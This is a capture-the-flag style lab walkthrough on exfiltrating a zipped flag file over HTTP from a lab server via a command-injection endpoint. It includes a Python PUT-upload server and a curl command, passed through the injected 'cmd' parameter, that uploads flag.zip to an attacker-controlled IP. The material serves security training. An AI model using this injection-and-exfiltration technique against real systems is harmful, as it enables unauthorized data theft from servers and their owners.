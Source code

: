```yaml
---
description: >-
  In this lab you will learn how one can use a simple HTTP server written in
  Python for exfiltrating data from a restricted environment.
---
```


# Lab - Data Exfiltration



## Lab Environment

You have exploited a vulnerable API endpoint and overwritten it with malicious code. This modification allows you to run commands on the server machine hosting the API, as a low privilege user i.e. student. A sensitive flag file is kept in a zipped archive file in the student user's home directory.

Also, there is a monitor process running on the server machine that blocks most protocols except HTTP protocol (when using port 80).

**Objective:** Transfer the zipped archive to your Kali machine using HTTP protocol and retrieve the flag!

**Instructions**

* Once you start the lab, you will have access to the Kali GUI instance
* The API endpoint is accessible at `demo.ine.local` domain!

![](https://assets.ine.com/content/pta-labs/3\_data\_exfiltration/0.png)

## Tools

The tools used in this lab are:

* Nmap
* A web browser
* Python Scripting
* curl

## Solution

Run an nmap scan on demo.ine.local to find out open ports

```
nmap demo.ine.local
```

![](<../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1).png>)

We can see that port 8000 is open

Going to **demo.ine.local** shows us the following

![](<../../../../.gitbook/assets/image (8) (1) (1).png>)

From the "cmd parameter required" response, we know this means we need to pass parameter names cmd with the URL

For example `pwd` or `ls` or `whoami`

```
demo.ine.local:8000?cmd=pwd
```

![](<../../../../.gitbook/assets/image (2) (1) (1) (1).png>)

Here we see the present working directory located on the web-server

Let's see the contents of that directory

```
demo.ine.local:8000?cmd=ls -l
```

![](<../../../../.gitbook/assets/image (3) (1) (1) (1) (1).png>)

We see an interesting file flag.zip. However, in order to retrieve the flag, we need to transfer/exfiltrate this file to our Kali machine

One of the tools mentioned in the beginning was cURL. Let's check if curl is on the remote machine

```
demo.ine.local:8000?cmd=curl -h
```

![](<../../../../.gitbook/assets/image (10) (1) (1) (1) (1) (1).png>)

Now that we know the remote machine has curl, let's check what our IP is.

```
ifconfig
```

![](<../../../../.gitbook/assets/image (4) (1) (1) (1) (1).png>)

In order to exfiltrate the flag.zip file, we need to run a HTTP server on our kali machine that can accept and save the file when it is sent over HTTP

This code will help us:

```python
#!/usr/bin/python

import SimpleHTTPServer
import BaseHTTPServer

class SputHTTPRequestHandler(SimpleHTTPServer.SimpleHTTPRequestHandler):
    def do_PUT(self):
        print self.headers
        length = int(self.headers["Content-Length"])
        path = self.translate_path(self.path)
        with open(path, "wb") as dst:
            dst.write(self.rfile.read(length))

if __name__ == '__main__':
    SimpleHTTPServer.test(HandlerClass=SputHTTPRequestHandler)
```

Next I saved the file as **server.py** and ran it.

```
python server.py 80
```

Now we'll upload the zip file to our HTTP server running on Kali using curl

```
demo.ine.local:8000?cmd=curl+192.147.164.2+--upload-file+flag.zip
```

![](<../../../../.gitbook/assets/image (9) (1) (1) (1).png>)

Here we can see that our server received the file&#x20;

If we list the contents of our current working directory we'll see the file

![](<../../../../.gitbook/assets/image (7) (1) (1) (1) (1) (1).png>)

Lastly, unzip the file and retrieve the flag.

```
unzip flag.zip
```

```
cat flag/flag.txt
```

![](<../../../../.gitbook/assets/image (1) (1) (1) (1).png>)
